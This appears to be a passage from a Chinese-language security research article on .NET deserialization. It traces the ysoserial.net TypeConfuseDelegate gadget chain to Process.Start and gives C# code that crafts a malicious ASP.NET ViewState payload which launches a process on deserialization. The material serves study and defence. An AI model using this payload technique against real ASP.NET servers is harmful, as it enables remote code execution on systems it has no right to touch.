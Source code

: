 ```
        `}`
    `}`
`}`
```

所以我们只需要找到和上面代码相类似，且在fx或目标环境进行提供的类即可在真实环境中使用。限于篇幅，更细节的信息请参考ysoserial.net的`TypeConfuseDelegateGenerator`，其调用堆栈大致为：

```
System.Diagnostics.Process.Start
System.Collections.Generic.ComparisonComparer&lt;string&gt;._comparison.Invoke
System.Collections.Generic.ComparisonComparer&lt;string&gt;::Compare
System.Collections.Generic.SortedSet&lt;string&gt;::OnDeserialization
(after System.Collections.Generic.SortedSet&lt;string&gt;::.ctor(SerializationInfo,StreamingContext))
```

### <a class="reference-link" name="0x12%20ViewState"></a>0x12 ViewState

ViewState是asp.net的一个特性，由`[System.Web]System.Web.UI.Page`类进行实现，其目的是为服务端控件状态进行持久化。从开发的角度看，所谓“控件状态”实际上就是服务端控件的属性或字段。fx在实现时采用了类似于`ISerializable::GetObjectData`的行为，由控件本身决定如何进行保存。

具体的序列化流程由`[System.Web]System.Web.UI.ObjectStateFormatter`进行处理。其返回结果以`FF01`作为magic，后续数据是近似于`Type-Value`的格式。由于控件本身可能需要保存较为复杂的类型，ObjectStateFormatter通过`二进制序列化`方式对这种情况进行支持，其TypeCode为`0x32`，Value为带有`7bit-encoded`长度前缀的二进制序列化数据。

所以可以使用以下代码手动生成一个合法的ViewState：

```
static byte[] GetViewState()
`{`
  Test t = new Test(new Func&lt;string, object&gt;(Process.Start), "notepad");
  byte[] data = Serialize(t);
  MemoryStream ms = new MemoryStream();
  ms.WriteByte(0xff);
  ms.WriteByte(0x01);
  ms.WriteByte(0x32);
  uint num = (uint)data.Length;
  while (num &gt;= 0x80)
  `{`
      ms.WriteByte((byte)(num | 0x80));
      num = num &gt;&gt; 0x7;
  `}`
  ms.WriteByte((byte)num);
  ms.Write(data, 0, data.Length);
  return ms.ToArray();
`}`
```

在asp.net环境中，每一个aspx文件都会（在发布期间或初始化期间）被编译为一个继承Page类的对象。访问对应的页面时由`[System.Web]System.Web.UI.PageHandlerFactory`进行查找并创建实例，之后调用`ProcessRequest`方法处理当前的HttpContext。在随后的`ProcessRequestMain`方法中，将判断是否处于`PostBack`状态，如果是则获取`Form`或`QueryString`中的`__VIEWSTATE`，并在`LoadAllState`方法中进行反序列化。

上述过程的调用堆栈大致为：
